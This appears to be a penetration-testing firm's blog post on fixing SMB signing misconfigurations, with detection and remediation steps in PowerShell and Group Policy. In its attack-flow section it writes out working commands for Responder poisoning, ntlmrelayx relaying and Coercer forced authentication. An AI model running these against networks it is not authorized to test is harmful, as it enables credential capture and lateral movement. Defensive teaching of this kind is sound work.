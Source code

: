 ```yaml
---
image: "~/assets/images/smbrelay.webp"
title: How To Fix SMB Signing Vulnerabilities
excerpt: "SMB Relay attacks are like a game of telephone where everyone loses."
author: Staff
tags:
 - penetration testing
publishDate: 2024-11-25T00:00:00Z
---
```



# How to Fix SMB Signing Misconfigurations: Don't Pick Up the Telephone

At **Strategic Defense**, SMB signing misconfigurations are a frequent finding during our internal penetration tests. These vulnerabilities allow attackers to execute SMB relay 
attacks, often leading to administrative access on systems we shouldnt have access to. Even better, you can access systems using accounts you don't even have the password for. 
Tools like Responder ([which we've talked about before](https://strategicdefense.co/blog/2024/03/2024-03-10-how-to-fix-llmnr)), ntlmrelayx, and Coercer make exploiting these misconfigurations even easier.

SMB signing ensures authenticity and integrity of SMB packets. Without it, attackers can intercept, relay, or even coerce systems into authenticating to them. Fixing these 
vulnerabilities is a must for any organization aiming to prevent lateral movement and credential compromise.

---

### What is SMB Signing?
SMB signing is a security feature that cryptographically signs SMB communications, ensuring packets are from a legitimate source and haven't been tampered with. When SMB signing 
is not enforced:
1. Attackers can relay authentication requests to other systems (e.g., **SMB Relay** attacks).
2. Attackers can intercept and modify SMB communications.

---

### How SMB Signing is Exploited in Penetration Tests
#### **Tools of the Trade**
1. [**Responder**](https://github.com/lgandx/Responder): Captures NTLM hashes by responding to broadcast protocols like LLMNR and NetBIOS.
2. [**ntlmrelayx**](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py): Relays captured credentials to other systems, bypassing authentication when SMB signing 
is not enforced.
3. [**Coercer**](https://github.com/p0dalirius/Coercer): If you have credentials, you can force machines to authenticate to an attacker-controlled SMB server by exploiting remote 
services like printers or scheduled 
tasks.

#### **Typical Attack Flow**

1. **Prep to relay NTLM Hashes with ntlmrelayx**
   - Use `ntlmrelayx.py` to relay captured NTLM hashes to other vulnerable systems:
   ```bash
   python3 ntlmrelayx.py -tf targets.txt --smb2support
   ```

2. **Intercept Authentication Requests with Responder**
   - Launch Responder to capture NTLM hashes by poisoning LLMNR or NetBIOS Name Service (NBT-NS).
   ```bash
   sudo responder -I eth0
   ```

3. **Alternatively, Force Authentication with Coercer (if you have credentials)**
   - You can use **Coercer** to trigger SMB authentication requests from remote systems to an attacker-controlled server, to then relay them to other systems. This can be helpful 
if you have a set of limited-permission credentials, and want to upgrade to say, a machine account or other privileged user. 
   ```bash
   python3 Coercer.py coherce -l <listener-ip> -t <target-ip> -u <username> -p <password> -d DOMAIN.local
   ```
   - This technique can be used in combination with tools like **ntlmrelayx** to execute relay attacks.

   Example output from Coercer might show SMB connections being initiated:
   ```
   [+] Coercing authentication via Print Spooler service.
   [*] Sending requests to \\<target-ip>\pipe\spoolss
   ```

---

### How to Detect SMB Signing Misconfigurations
#### **Manual Checks**
Use **PowerShell** to identify SMB signing configurations:

- **On Servers:**
  ```powershell
  Get-SmbServerConfiguration | Select EnableSecuritySignature, RequireSecuritySignature
  ```

- **On Clients:**
  ```powershell
  Get-SmbClientConfiguration | Select EnableSecuritySignature, RequireSecuritySignature
  ```
If “RequireSecuritySignature” says False, you’ve got a problem.


#### **Automated Scanning**
- **Nmap:**
  ```bash
  nmap --script smb-security-mode.nse -p445 <target-ip>
  ```
  Look for results indicating SMB signing is **optional** or **disabled**.

- **NetExec:**
  ```bash
  nxc smb <target-ip> --gen-relay-list targets.txt
  ```
  If the output suggests SMB signing is not required, those targets are vulnerable to relay attacks. This is the same way pentesters build SMB Relay attack lists to work from. 

- **Cohercer:**
  ```bash
  python3 Coercer.py scan -t <target-ip> -u username -p password -d DOMAIN.local -v
  ```
  Look for results indicating "Accessible", or requests hitting your Responder instance.

---

### How to Fix SMB Signing Misconfigurations
#### **1. Enforce SMB Signing**
Use Group Policy to enable and require SMB signing across your network:
- Navigate to **Computer Configuration > Administrative Templates > Network > Lanman Workstation**.
- Set:
  - **Enable security signatures**: Enabled.
  - **Require security signatures**: Enabled.

#### **2. Verify SMB Signing Configuration**
- On servers:
  ```powershell
  Set-SmbServerConfiguration -RequireSecuritySignature $true -Force
  ```
- On clients:
  ```powershell
  Set-SmbClientConfiguration -RequireSecuritySignature $true -Force
  ```

#### **3. Disable SMBv1**
SMBv1 is outdated and inherently insecure. Disable it:
```powershell
Disable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol
```

#### **4. Test the Configuration**
After making changes, rerun tools like **Responder** and **ntlmrelayx** to ensure SMB relay attacks are no longer possible.

---

### Common Challenges
One common challenge to enabling SMB Signing is **Legacy Systems**. Older devices may not support SMB signing, so isolate these systems or replace them. Ensuring they dont share 
credentials / authentication with other systems (i.e. Active Directory) can be a good move. This way if an attacker gets in a position to relay authentication attempts, they won't 
work (because the credentials arent shared) on the target vulnerable system.

---

### Conclusion
SMB signing misconfigurations are a gateway to serious internal network compromises. As password policies improve, testers (and threat actors) move towards relay attacks since 
they dont require the underlying password to be cracked in order to compromise the account. Tools like **Responder**, **ntlmrelayx**, and **Coercer** highlight the ease with which 
attackers can exploit these weaknesses. By enforcing SMB signing and hardening other SMB configurations, you can protect your organization from these attacks.

At **Strategic Defense**, we specialize in identifying and remediating vulnerabilities like these during our penetration tests. Check out our [services](https://strategicdefense.co/services) to learn 
how we can help secure your environment against advanced threats.

